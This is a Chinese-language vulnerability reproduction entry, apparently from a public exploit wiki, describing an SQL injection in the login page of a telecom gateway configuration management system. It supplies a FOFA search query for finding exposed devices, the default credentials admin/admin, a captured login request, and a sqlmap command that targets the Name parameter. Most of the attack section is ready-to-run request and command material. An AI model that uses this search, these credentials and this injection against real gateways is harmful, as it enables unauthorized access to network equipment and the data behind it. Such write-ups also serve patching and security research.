 ```yaml
---
title: 电信网关配置管理系统 SQL注入漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - 电信
---
```


# 电信网关配置管理系统 SQL注入漏洞

## 漏洞描述

电信网关配置管理系统 前台登陆页面用户名参数存在SQL注入漏洞

## 漏洞影响

> [!NOTE]
>
> 电信网关配置管理系统

## FOFA

> [!NOTE]
>
> body="src=\"img/dl.gif\"" && title="系统登录"

## 漏洞复现

登录页面如下

![](/img/20210924013723986483.png)

设备存在默认弱口令 **admin/admin**

![](/img/20210924013724293984.png)

登录的请求包为

```
POST /manager/login.php HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 53
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.128 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=2lfi6enp5gehalrb92594c80i6
Connection: close

Name=admin&Pass=admin
```

保存为文件使用 Sqlmap工具，注入点为 **Name参数**

```
sqlmap -r sql-1.txt -p Name --risk 3 
```

![](/img/20210924013725053333.png)

## Goby & POC

> [!NOTE]
>
> Hsmedia Hgateway default account

![](/img/20210924013726012107.png)